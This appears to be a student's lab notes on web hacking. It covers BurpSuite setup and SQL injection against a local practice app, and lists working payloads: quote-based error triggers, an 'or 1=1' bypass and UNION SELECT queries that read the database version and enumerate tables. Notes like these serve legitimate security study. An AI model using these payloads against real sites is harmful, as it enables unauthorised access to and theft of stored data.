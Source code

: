 ### BurpSuite
once everything is working:
- open BurpSuite
- turn on [[cheat#FoxyProxy|FoxyProxy]] (already configured)

## Attacks
### SQL Injection
Our lab uses this -->  users table:
![[Pasted image 20240307111356.png]]

#### Injection 0x01
- Turn on docker-compose
- Open browser to localhost
- Open the first lab

we'll find a simply search bar:
if we write for example -->  jeremy => it will return the email
![[Pasted image 20240307111601.png]]
[[cheat#SQL Injection]]
[SQL Injection Cheet Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
##### Basic trigger and operators
- try to use characters that might trigger an error:
  `jeremy'`
  `jeremy"`
  `'`
  `"`
- `jeremy' or 1=1#`
  `or 1=1` -->  returns always true
  `#` -->  end sql queries                      (for mysql you can also use `-- -`)
        => everything after this -->  will be ignored
    ![[Pasted image 20240307112811.png]]
    this in an indication that the app -->  is vulnerable to SQL injection

##### Union
we can use it to selects other information or info from another table
>[!warning] Constraint
>There is a constraint to use UNION:
> we can only select -->  the same n° of columns as in the original query

=>
`jeremy' union select null#`
`jeremy' union select null,null#`
`jeremy' union select null,null,null#`
![[Pasted image 20240307113504.png]]
we find something
=>
`jeremy' union select null,null,version()#` -->  to read the db version
![[Pasted image 20240307113541.png]]
<span style="background:#fff88f">to find all the tables that exist in the db:</span>
`jeremy' union select null,null,table_name from information_schema.tables#`
